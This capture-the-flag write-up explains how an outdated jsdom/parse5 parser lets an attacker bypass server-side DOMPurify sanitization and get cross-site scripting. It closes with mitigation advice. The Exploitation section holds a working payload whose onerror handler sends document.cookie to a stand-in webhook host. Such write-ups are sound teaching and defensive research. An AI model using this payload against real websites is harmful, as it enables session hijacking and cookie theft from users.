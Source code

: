 ```yaml
---
title: Air smeller
author: D_K
description: I found this website where you can rate the smell of the air, after purification. Do you know a good purifier, maybe you can recommend some purifier to the people.
categories:
    - Web
year: 2025
challengefiles: air-smeller.zip
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** This challenge is about a **DOMPurify** bypass
    **- Key Discoveries:** **DOMPurify** is used server-side
    **- Vulnerability:** The used **JSDOM** library to offer a DOM parser for **DOMPurify** is outdated
    **- Exploitation:** By abusing an implementation but in the old **JSDOM** version, we can bypass **DOMPurify**

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to identify and exploit a bypass in **DOMPurify** to achieve Cross-Site Scripting (XSS) and ultimately steal the admin's cookie. The challenge description already hints at the role of a sanitizer in the exploitation process.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Fortunately, the source code for the website is provided in this challenge. It is a small website built with **Next.js** using **React** and written in **TypeScript**. An admin bot, using **Chromium**, checks the website every 60 seconds and carries the flag in its cookie. Moreover, the attribute `httpOnly: false` allows us to access the cookie via JavaScript, so there is a high probability that this is an XSS challenge.
<span>
On the landing page, where we can submit our ratings, the input is reflected in both input fields:

![landing page](ctf/writeups/cscg/airsmeller/landing_page.png "landing page")

But it seems like there is some kind of sanitizer removing malicious input from the comment field and thus preventing XSS. A closer look at the source code in `src/components/ratings.tsx` reveals that the sanitizer used for filtering malicious comments is **DOMPurify**, a very popular and powerful XSS sanitizer. The sanitized output is then injected into the comment section using **React**'s `dangerouslySetInnerHTML`. It functions similarly to the traditional `innerHTML` in vanilla JavaScript. Thus, the comment input field acts as an HTML injection vector. The reason for this design decision could be to allow users to style their comments in a fancy way with some HTML tags. This means that bypassing **DOMPurify** should be enough to have an XSS.
<span>
In this challenge, **DOMPurify** is used server-side, so it requires a DOM parser. The challenge uses **jsdom** for this purpose and a look at the `package.json` reveals that **DOMPurify** is slightly outdated. Notably, to exploit the mXSS-style bypass, which was patched in the latest version, requires a non-default configuration of **DOMPurify**, enabling the `SAFE_FOR_TEMPLATES` option; we don't have the luxury of this in this challenge.
<span>
More interestingly, the version of **jsdom** v19.0.0 is quite old. Reviewing the [README](https://github.com/cure53/DOMPurify?tab=readme-ov-file\#running-dompurify-on-the-server) of **DOMPurify** confirms that the older version of **jsdom** may introduce vulnerabilities:

```
Running DOMPurify on the server requires a DOM to be present, which is probably no surprise. Usually, jsdom is the tool of choice and we strongly recommend using the latest version of jsdom.

Why? Because older versions of jsdom are known to be buggy in ways that result in XSS even if DOMPurify does everything 100% correctly. There are known attack vectors in, e.g. jsdom v19.0.0 that are fixed in jsdom v20.0.0 - and we really recommend keeping jsdom up to date because of that.
```

# 3. Bypassing DOMPurify - Finding differentials<a id="bypassing DOMPurify - finding differentials"></a>
Bypassing **DOMPurify** is challenging when it is used correctly. Typically, you would use the latest version of **DOMPurify** client-side so that the sanitizer uses the same DOM parser as the browser rendering the website. When using a sanitizer like **DOMPurify**, the untrusted payload is parsed at least two times:
<span>
The first time, by the DOM parser used by **DOMPurify**, and the second time by the DOM parser of the browser, the website is being rendered on. Using the **DOMPurify** client-side avoids parser differentials that originate from **DOMPurify** using a different parser in the backend than the client. Nevertheless, bypassing even the latest version of **DOMPurify** running client-side is not impossible. If you are interested in the whole topic around mutation XSS (mXSS), I can highly recommend [this article](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes).
<span>
As mentioned, the challenge uses **DOMPurify** server-side with an outdated DOM parser **jsdom**. This design decision might be intended to prevent malicious payloads from reaching the server's database, reducing the overhead for clients and ensuring that even a tampered client gets sanitized content. Essentially, the challenge goal is to find bugs in the parser or serializer implementation of **jsdom** and exploit them. With the help of such a bug, we could craft a malicious payload so the **DOMPurify** sanitization process using **jsdom** won't detect it. But when the payload is being rendered in **Chromium** with its underlying **DOMParser**, this will lead to malicious behavior. To find the differential, we have to dive deep into the source code of **jsdom** and its underlying parser and serializer, **parse5**.
<span>
With the outdated **jsdom** version, we review the corresponding [release notes](https://github.com/jsdom/jsdom/releases/tag/20.0.0) and discover several noteworthy fixes introduced in **jsdom** v20.0.0:

```
Updated parse5, bringing along some HTML parsing and serialization fixes. (fb55)
```

This change motivates us to examine the exact [code modifications](https://github.com/jsdom/jsdom/commit/2e355263e5cae2e4647b0956f777c0abd2c62d5b). Aside from updating the underlying HTML parser and serializer **parse5** to v7.0.0, nothing particularly exploitable in **jsdom** itself is immediately apparent. Further investigation into the [release notes](https://github.com/inikulin/parse5/releases/tag/v7.0.0) for **parse5** v7.0.0 reveals a significant [pull request](https://github.com/inikulin/parse5/pull/383) titled:

```
Refactor & improve serializer
```

Moreover, an interesting [issue](https://github.com/inikulin/parse5/issues/333) describes a bug in the HTML serializer where the namespace of any content is not properly checked before decoding and applying it to the corresponding node. For example, given input like:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

**jsdom**'s `innerHTML` serializes it as:

```html
<svg><style><</style></svg>

<style>&lt;</style>
```

whereas **Chromium**'s **DOMParser**, following the HTML specification, serializes it as:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

In short, **jsdom** decodes the opening tag in the SVG namespace, which is not valid per the [HTML specification](https://html.spec.whatwg.org/#serialising-html-fragments). During initialization, **DOMPurify** creates a document with:

```javascript
doc = new DOMParser().parseFromString(dirtyPayload, PARSER_MEDIA_TYPE);
```

The **jsdom** implementation of `parseFromString` uses the **parse5** [parser](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/parser/index.js). Eventually after sanitization, **DOMPurify** calls:

```javascript
let serializedHTML = WHOLE_DOCUMENT ? body.outerHTML : body.innerHTML;
```

This will internally use the **parse5** [serializer](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/serializer/index.js), which has the aforementioned namespace-dependent bug. Thus, the malicious payload is processed in the following stages, each potentially modifying its HTML structure and representation:
<span>
Dirty HTML → **parse5** parser → **DOMPurify** sanitizer → **parse5** serializer → **Chromium** **DOMParser**
<span>
**DOMPurify** assumes that the DOM parser implements the HTML specifications correctly. In this case, it doesn't interpret the `&lt;` as an opening tag, because it relies on the output of the **jsdom** serializer. The serializer treats it as a text node `#text` within the `style` tag, similar to regular content, for example, in a `p` tag. However, after sanitization calling `innerHTML` and thus using the buggy **parse5** serializer, the harmless `&lt;` is decoded as an actual HTML opening tag `<`, causing **DOMPurify** to return a malicious payload with the encoded tag. So effectively, in this challenge **DOMPurify** itself potentially makes harmless inputs harmful.
<span>
There are additional bugs in **parse5** v6.0.0, such as [this one](https://github.com/inikulin/parse5/pull/451), which might also be exploitable in this challenge. The difference from the previously described bug is that this one occurs in the **parse5** parser, whereas the earlier bug was in the **parse5** serializer. According to the HTML specification, the closing tags `</br>` and `</p>` must not be children of `<svg>` or `<math>` elements. If they are placed inside these elements, they are automatically moved outside, effectively closing the `<svg>` or `<math>` tags. For instance, a payload like:

```html
<svg></br><a>
```

will be serialized by **jsdom**'s `innerHTML` as

```html
<svg><span><a></a></svg>
```

while **Chromium**'s **DOMParser** serializes it as:

```html
<svg></svg><span><a></a>
```

It is worth noting that all of this code search in GitHub was not necessary to uncover the parser differentials and even a working payload for the challenge. For more insights into parsing differentials used to bypass HTML sanitizers like **DOMPurify**, I refer to [this research paper](https://www.ias.cs.tu-bs.de/publications/parsing_differentials.pdf).

# 4. Exploitation<a id="exploitation"></a>
The final payload is straightforward once you understood the serializer bug in **parse5**:

```html
<svg><style>&lt;img src onerror='window.location=(`reqest-bin/${document.cookie}`)';><a>
```

By using the encoded opening tag `&lt;`, we can inject an image tag with an `onerror` event past the **DOMPurify** sanitizer. This event triggers a redirect to our webhook, effectively exfiltrating the cookie that contains the flag `CSCG{0ld_A1r_Smeels_B4d}`.

# 5. Mitigation<a id="mitigation"></a>
The vulnerability is about using **DOMPurify** with an outdated version of **jsdom** (and consequently an outdated **parse5** version). Updating these dependencies would resolve the issue. So always precisely read the documentation on how to use security-relevant libraries like **DOMPurify**. Additionally, shifting **DOMPurify** from a server-side to a client-side implementation would prevent parser and serializer differentials, as the same DOM parser would be used throughout. Implementing a robust Content Security Policy (CSP) further restricts JavaScript execution, adding another layer of defense against XSS. Morover, try to use `httpOnly` cookies on your website if none of your javascript needs to access cookies. Finally, if not absolutely necessary, avoid using `innerHTML` (or in this case `dangerouslySetInnerHTML`) with untrusted input.

# 6. Flag<a id="flag"></a>
CSCG{0ld_A1r_Smeels_B4d}
